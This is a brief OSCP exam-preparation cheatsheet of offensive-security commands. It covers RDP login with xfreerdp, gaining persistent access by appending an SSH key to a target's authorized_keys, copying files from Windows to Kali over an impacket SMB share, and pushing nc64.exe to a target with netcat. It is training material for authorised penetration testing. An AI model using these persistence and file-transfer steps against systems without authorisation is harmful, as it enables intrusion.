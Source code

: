 # OSCP Cheatsheet

Notes from preparation for OSCP exam. 

# Connecting to RDP

```bash
xfreerdp /u:user /p:'password' /v:$target
xfreerdp /d:domain /u:user /p:'password' /v:$target

# try this option if normal login doesn't work
xfreerdp /u:user /p:'password' /v:$target +clipboard /cert:ignore
```

# Adding SSH Public key

- This can be used to get ssh session, on target machine which is based on linux

```bash
# defaults are typically fine, but you can fine-tune line 38 to your liking
# I generally don't like adding a passphrase, but you can if you insist.
ssh-keygen

# This created both id_rsa and id_rsa.pub in ~/.ssh directory
# Copy the content in "id_rsa.pub" to "authorized_keys" in the ".ssh" directory in /home of target machine.
cat id_rsa.pub >> authorized_keys

# On Attacker machine, give copied private key 600 permissions. You should be able to log in now.
chmod 600 id_rsa
ssh username@target_ip -i id_rsa 
```

# File Transfers

## Windows to Kali

```bash
# kali
impacket-smbserver -smb2support <sharename> .
# windows
copy file \\KaliIP\sharename
```

## Netcat

```bash
# Attacker
nc target_ip 1234 < nc64.exe

# Target
nc -lvp 1234 > nc64.exe
```
